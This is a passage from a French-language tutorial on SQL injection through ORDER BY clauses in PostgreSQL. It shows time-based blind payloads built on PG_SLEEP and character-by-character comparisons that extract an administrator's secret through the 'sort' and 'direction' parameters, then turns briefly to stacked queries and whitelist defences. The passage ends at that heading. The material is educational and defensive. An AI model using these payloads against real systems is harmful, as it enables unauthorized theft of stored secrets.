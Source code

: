 Le nom d'utilisateur est "admin".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,1,1))=ASCII('M') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,2,1))=ASCII('o') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,3,1))=ASCII('n') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

Son secret est "Mon mot de passe est passw0rd"

_Exploitation du paramètre "direction"_

L'exploitation du paramètre "direction" est très similaire à celle du paramètre "sort". Pour cette raison, seule la récupération du secret de l'administrateur sera illustrée :&#x20;

```sql
ASC, (SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,1,1))=ASCII('M') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
ASC, (SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,2,1))=ASCII('o') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
ASC, (SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,3,1))=ASCII('n') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

### Stack queries

Les stack queries consistent à ajouter plusieurs requêtes SQL dans un seul appel à la base de données, en les séparant par un point-virgule `;`. Cependant, leur utilisation peut être limitée ou non supportée en fonction de l'API SQL ou du moteur SQL utilisé.

{% hint style="info" %}
Cette technique, ne se limitant pas aux injections dans la clause `ORDER BY`, elle ne sera donc pas approfondie ici.
{% endhint %}

## Comment s'en protéger

La limitation vient du fait qu'il n'est pas possible de lier des paramètres utilisés comme identifiants, tels que les noms de tables ou de colonnes, y compris dans une clause `ORDER BY`. Cependant, plusieurs solutions permettent de contourner ce problème.

### Validation par liste blanche (PHP + extension Mysqli/PDO)
